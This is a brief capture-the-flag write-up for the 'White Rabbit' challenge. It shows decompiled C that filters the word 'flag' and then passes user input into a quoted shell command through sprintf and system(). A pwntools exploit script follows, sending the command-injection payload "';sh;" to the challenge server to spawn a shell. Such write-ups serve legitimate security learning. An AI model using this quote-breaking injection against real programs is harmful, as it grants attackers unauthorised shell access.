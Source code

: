 ### White Rabbit (100 Points)

> Follow the white rabbit...
>
> [attachment](whiterabbit-cacd63e38e13130a3381342eacfbb623)



After decompiler the main, we saw the “flag” has be filtered. But we can use the command injection in function sprintf !

```c
    puts("Follow the white rabbit.");
    printf("Path to follow: ");
    __isoc99_scanf(0x2032, &var_150h);
    iVar2 = strstr(&var_150h, "flag");
    if (iVar2 != 0) {
        puts("No printing the flag.");
    // WARNING: Subroutine does not return
        exit(0);
    }
    sprintf(&var_110h, "[ -f \'%1$s\' ] && cat \'%1$s\' || echo File does not exist", &var_150h);
    system(&var_110h);
```

#### Exploit script

```python
#!/usr/bin/env python
from pwn import *

payload = "';sh;"

# p = process('./whiterabbit-cacd63e38e13130a3381342eacfbb623')
p = remote('chal.ctf.b01lers.com',1013)
p.sendline(payload)

p.interactive()
```

